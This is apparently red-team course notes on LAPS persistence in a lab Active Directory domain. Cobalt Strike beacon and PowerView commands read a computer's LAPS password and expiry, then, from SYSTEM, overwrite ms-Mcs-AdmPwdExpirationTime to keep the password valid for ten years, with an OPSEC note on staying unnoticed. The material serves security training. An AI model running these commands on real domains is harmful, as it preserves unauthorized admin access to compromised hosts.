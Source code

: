 When enabled, this policy will prevent a user or computer setting the expiration date of a password beyond the password age specified in the `PasswordAgeDays` setting.

We also read from `Registry.pol` that this is set to 30 days.

For instance, if a password is set on the 1st of January 2022, its expiration will be the 31st of January 2022.

If password expiration protection is enabled and we attempted to modify its expiration date beyond the 31st of January, it would trigger an automatic reset of that password.

If the policy setting is left "not configured" in the GPO, then password expiration protection is disabled by default.

Since we were able to compromise `WKSTN-1` using its LAPS password, we can set its expiration long into the future as a form of persistence.

**The expiration date is an 18-digit timestamp calculated as the number of 100-nanosecond intervals that have elapsed since the 1st of January 1601 (weird, I know):**

```
beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

ms-mcs-admpwdexpirationtime ms-mcs-admpwd 
--------------------------- ------------- 
         133101494718702551 1N3FyjJR5L18za
```

Where <mark style="color:yellow;">`133101494718702551`</mark> is Thursday, 13 October 2022 15:44:31 GMT.

{% hint style="info" %}
Use [https://www.epochconverter.com/ldap](https://www.epochconverter.com/ldap) as it can translate between these timestamps and human-readable formats.
{% endhint %}

If we wanted to <mark style="color:yellow;">push the expiry out by 10 years</mark>, we can overwrite this value with <mark style="color:yellow;">`136257686710000000`</mark>. &#x20;

**Every computer has delegated access to write to this password field, so we must elevate to `SYSTEM` on&#x20;**<mark style="color:yellow;">**`WKSTN-1`**</mark>**:**

```
beacon> run hostname
wkstn-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose
Setting 'ms-Mcs-AdmPwdExpirationTime' to '136257686710000000' for object 'WKSTN-1$'
```

{% hint style="danger" %}
**OPSEC**\
\
**The expiration date will still be visible to admins and a manual reset will change the password and restore the expiration date.**\
\
![](https://files.cdn.thinkific.com/file_uploads/584845/images/411/f2f/065/laps-ui.png)
{% endhint %}
